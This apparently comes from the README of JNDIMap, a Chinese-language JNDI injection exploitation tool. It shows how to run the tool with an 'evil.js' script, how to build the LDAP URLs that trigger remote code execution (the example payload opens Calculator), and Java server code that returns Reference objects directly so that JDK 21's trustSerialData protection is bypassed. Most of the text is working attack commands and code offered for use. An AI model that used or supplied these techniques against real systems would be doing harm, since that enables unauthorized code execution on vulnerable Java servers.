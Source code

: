 运行 JNDIMap

```bash
java -jar JNDIMap.jar -f /path/to/evil.js
```

通过以下 JNDI URL 实现 RCE

```bash
# 支持手动向 JS 脚本传入参数
ldap://127.0.0.1:1389/Script/<args>
```

如果在某些情况下, 无法完全控制 JNDI URL, 可以指定 `-u` 参数

```bash
java -jar JNDIMap.jar -f /path/to/evil.js -u "/Script/open -a Calculator"
```

然后通过任意 JNDI URL 触发

```bash
ldap://127.0.0.1:1389/x
```

## 高级技巧

### Use Reference Only

对于 LDAP 协议的 JNDI 注入, 如果想要利用 ObjectFactory 绕过, 目前已有的方法都是将 LDAP 协议返回的 javaSerializedData 属性设置为 Reference 对象的序列化数据

但是自 JDK 21 开始 `com.sun.jndi.ldap.object.trustSerialData` 参数默认为 false, 即无法通过 LDAP 协议触发反序列化, 也就无法通过上面的方法解析 Reference 对象

不过我们仍然可以设置相关的 LDAP 参数, 使得服务端直接返回 Reference 对象, 因为这个过程没有涉及到反序列化, 所以也就绕过了 trustSerialData 参数的限制

具体实现如下

```java
public void processSearchResult(InMemoryInterceptedSearchResult searchResult) {
    // ......

    Reference ref = (Reference) result;
    e.addAttribute("objectClass", "javaNamingReference");
    e.addAttribute("javaClassName", ref.getClassName());
    e.addAttribute("javaFactory", ref.getFactoryClassName());

    Enumeration<RefAddr> enumeration = ref.getAll();
    int posn = 0;

    while (enumeration.hasMoreElements()) {
        StringRefAddr addr = (StringRefAddr) enumeration.nextElement();
        e.addAttribute("javaReferenceAddress", "#" + posn + "#" + addr.getType() + "#" + addr.getContent());
        posn ++;
    }

    // ......
}
```
